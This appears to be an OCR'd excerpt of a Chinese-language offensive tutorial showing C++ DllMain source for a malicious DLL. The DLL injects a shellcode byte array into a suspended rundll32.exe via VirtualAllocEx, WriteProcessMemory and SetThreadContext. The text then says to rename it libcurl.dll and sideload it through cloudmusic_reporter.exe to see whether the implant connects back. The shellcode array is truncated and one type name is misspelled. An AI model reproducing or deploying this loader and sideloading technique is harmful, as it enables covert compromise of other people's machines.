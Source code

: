     BOOL APIENTRY DllMain( HMODULE hModule,  
                           DWORD  ul_reason_for_call,  
                           LPVOID lpReserved  
                         )  
    {  
        switch (ul_reason_for_call)  
        {  
        case DLL_PROCESS_ATTACH:  
        {  
            uunsigned char hexData[] = "\xe8\x00\x00\x00\x00\x58\x5f\x05\x5b\x03\x00\x00\x68\x8c\x00\x00\x00\x50\x57\x55\x8b\xec\x83\xec\x68\x53\x56\x57\x6a\x22\x68\x64\xfc\xfb\x3c\xe8\x30\x02\x00\x00\x6a\x22\x8b";  
      
    		char* v7A = (char*)VirtualAlloc(0, _countof(hexData), 0x3000u, 0x40u);  
    		memcpy((void*)v7A, hexData, _countof(hexData));  
      
    		struct _PROCESS_INFORMATION ProcessInformation;  
    		struct _STARTUPINFOA StartupInfo;  
    		void* v24;  
    		CONTEXT Context;  
    		DWORD DwWrite = 0;  
    		memset(&StartupInfo, 0, sizeof(StartupInfo));  
    		StartupInfo.cb = 68;  
    		BOOL result = CreateProcessA(0, (LPSTR)"rundll32.exe", 0, 0, 0, 0x44u, 0, 0, &StartupInfo, &ProcessInformation);  
    		if (result)  
    		{  
    			Context.ContextFlags = 65539;  
    			GetThreadContext(ProcessInformation.hThread, &Context);  
    			v24 = VirtualAllocEx(ProcessInformation.hProcess, 0, _countof(hexData), 0x1000u, 0x40u);  
    			WriteProcessMemory(ProcessInformation.hProcess, v24, v7A, _countof(hexData), &DwWrite);  
    			Context.Eip = (DWORD)v24;  
    			SetThreadContext(ProcessInformation.hThread, &Context);  
    			ResumeThread(ProcessInformation.hThread);  
    			CloseHandle(ProcessInformation.hThread);  
    			result = CloseHandle(ProcessInformation.hProcess);  
    		}  
      
      
    		TerminateProcess(GetCurrentProcess(), 0);  
        };  
      
        case DLL_THREAD_ATTACH:  
        case DLL_THREAD_DETACH:  
        case DLL_PROCESS_DETACH:  
            break;  
        }  
        return TRUE;  
    }

生成dll文件，并将其重命名为libcurl.dll，与cloudmusic_reporter.exe放在同一文件夹内，双击运行查看是否上线成功。  

![](https://gitee.com/fuli009/images/raw/master/public/20221026095114.png)
